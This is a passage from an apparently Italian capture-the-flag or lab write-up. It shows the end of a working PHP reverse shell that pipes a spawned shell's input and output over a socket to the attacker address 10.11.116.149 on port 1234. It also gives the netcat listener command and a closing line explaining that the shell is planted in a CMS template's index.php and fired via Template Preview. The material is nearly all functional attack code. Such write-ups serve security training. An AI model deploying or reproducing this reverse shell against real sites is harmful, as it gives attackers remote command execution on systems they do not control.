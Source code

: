 ```
                            echo "STRM_ERROR: stream_select() failed\n"; break;
                        } else if ($num_changed_streams > 0) {
                            if ($this->os === 'LINUX') {
                                if (in_array($socket  , $streams['read'])) { $this->rw($socket  , $pipes[0], 'SOCKET', 'STDIN' ); } // read from SOCKET and write to STDIN
                                if (in_array($pipes[2], $streams['read'])) { $this->rw($pipes[2], $socket  , 'STDERR', 'SOCKET'); } // read from STDERR and write to SOCKET
                                if (in_array($pipes[1], $streams['read'])) { $this->rw($pipes[1], $socket  , 'STDOUT', 'SOCKET'); } // read from STDOUT and write to SOCKET
                            } else if ($this->os === 'WINDOWS') {
                                // order is important
                                if (in_array($socket, $streams['read'])/*------*/) { $this->rw ($socket  , $pipes[0], 'SOCKET', 'STDIN' ); } // read from SOCKET and write to STDIN
                                if (($fstat = fstat($pipes[2])) && $fstat['size']) { $this->brw($pipes[2], $socket  , 'STDERR', 'SOCKET'); } // read from STDERR and write to SOCKET
                                if (($fstat = fstat($pipes[1])) && $fstat['size']) { $this->brw($pipes[1], $socket  , 'STDOUT', 'SOCKET'); } // read from STDOUT and write to SOCKET
                            }
                        }
                    } while (!$this->error);
                    // ------ WORK END ------

                    foreach ($pipes as $pipe) {
                        fclose($pipe);
                    }
                    proc_close($process);
                }
                // ------ SHELL END ------

                fclose($socket);
            }
            // ------ SOCKET END ------

        }
    }
}
echo '<pre>';
// change the host address and/or port number as necessary
$sh = new Shell('10.11.116.149', 1234);
$sh->run();
unset($sh);
// garbage collector requires PHP v5.3.0 or greater
// @gc_collect_cycles();
echo '</pre>';
?>
```

```
nc -lvnp 1234
```
 ed inseriamo la reverse shell nells pagina del template index.php ,salviamo e facciamo Template Preview ed ==otteniamo la shell!==
